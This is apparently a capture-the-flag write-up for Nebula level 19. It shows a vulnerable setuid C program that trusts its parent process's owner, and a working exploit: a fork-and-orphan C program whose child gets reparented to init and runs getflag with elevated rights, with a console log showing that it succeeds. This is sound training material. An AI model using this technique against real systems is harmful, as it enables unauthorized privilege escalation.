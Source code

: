 # Nebula - [LEVEL 19](https://exploit.education/nebula/level-19/)

Level Description:

![level.JPG](images/level.JPG)

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

# Nebula - [LEVEL 19](https://exploit.education/nebula/level-19/) - Solution

As we can see, the binary checks if we are running as ```root``` PID.

On Linux system, If we are creating a child process (```fork()```) from the parent process and then kill the parent process before the child process dies - the "new" parent of the child process will be the parent of ```/sbin/init``` process which is ```root```:
```console
level19@nebula:/tmp/level17$ ps -ef | grep init
root         1     0  0 12:27 ?        00:00:00 /sbin/init
```

The ```/sbin/init``` program (also called init) coordinates the rest of the boot process and configures the environment for the user. When the init command starts, it becomes the parent or grandparent of all of the processes that start up automatically on the system ([Reference](https://web.mit.edu/rhel-doc/3/rhel-rg-en-3/s1-boot-init-shutdown-process.html)).

So we can solve this challenge by the following ```C``` code:
```c
#include <unistd.h>

int main(int argc, char **argv, char **envp){

        if(!fork()){
            printf("Child proccess");
            sleep(3); //Let the parent "time" to die
            setresuid(geteuid(),geteuid(),geteuid());
            char *arguments[] = {"/bin/sh", "-c", "getflag > /tmp/gf19", NULL};
            execve("/home/flag19/flag19", arguments, envp);


        }
        printf("Parent proccess");
        return 0;
}
```

On success, ```fork()``` returns the PID of the child process is in the parent, and 0 is returned in the child.

Let's compile and run it:
```console
level19@nebula:/tmp/level19$ gcc exploit.c -o exploit
level19@nebula:/tmp/level19$ ./exploit
level19@nebula:/tmp/level19$ ls -ltr /tmp/gf19
-rw-rw-r-- 1 flag19 level19 59 2022-01-13 22:32 /tmp/gf19
level19@nebula:/tmp/level19$ cat /tmp/gf19
You have successfully executed getflag on a target account
```
